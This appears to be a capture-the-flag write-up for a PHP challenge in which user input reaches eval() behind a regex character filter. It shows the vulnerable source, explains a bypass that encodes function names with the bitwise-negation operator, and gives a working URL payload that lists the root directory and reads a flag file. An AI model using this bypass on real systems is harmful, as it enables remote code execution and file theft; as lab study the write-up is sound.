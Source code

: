 
## My Little WAF

**Description:** - <br>
**Target:** http://103.250.10.198:10001 <br>
**Category:** eval() execution, preg_match() bypass

## Steps
The site showed the index.php source code
```
<?php  
if (isset($_GET['cmd'])) {  
$cmd = $_GET['cmd'];  

	if(preg_match("/[a-z0-9\s_$`]/i", $cmd) || strlen($cmd) > 0x50) { 
		echo  "Blocked!"; 
	} else { 
		eval($cmd); 
	}
} else {
	highlight_file(__FILE__);
}
?>
```
From the source code and title, we know that the objective of this challenge is to leverage `eval()` in PHP to gain code execution. We will use `cmd` parameter at the end of the URL. The problem is that the preg_match function only allows certain characters.

However, we can use this php trick and construct a code execution, <br>
![image](https://user-images.githubusercontent.com/63649797/194979320-1b777497-ca15-4372-8f1f-af343e66894d.png) <br>
The tilde (~) here is a binary negation operator (two's complement arithmatic), which inverses all the bits of its operand. Image below may explains.
[img]

![image](https://user-images.githubusercontent.com/63649797/194879267-340b0876-276e-4bce-b047-c324fd31e82a.png) <br>
Hence, we can construct a code execution like above, which is the same as ``print_r(scandir(“/”));``
```
http://103.250.10.198:10001/?cmd=(~%8F%8D%96%91%8B%A0%8D)((~%8C%9C%9E%91%9B%96%8D)(~%D0))%3B
```
![image](https://user-images.githubusercontent.com/63649797/194879547-6bf17ebc-cb43-40fb-997e-643d22901851.png) <br>
Then we can do the same again for ``readfile(“/fl44gg”);``

```
Flag: Fostifest{REDACTED}
```

## References
https://stackoverflow.com/questions/9129744/whats-the-function-of-the-bitwise-operator-tilde

## Unanswered question
If both the url encoded and decoded contains alphanumeric, how did it bypass the preg_match?
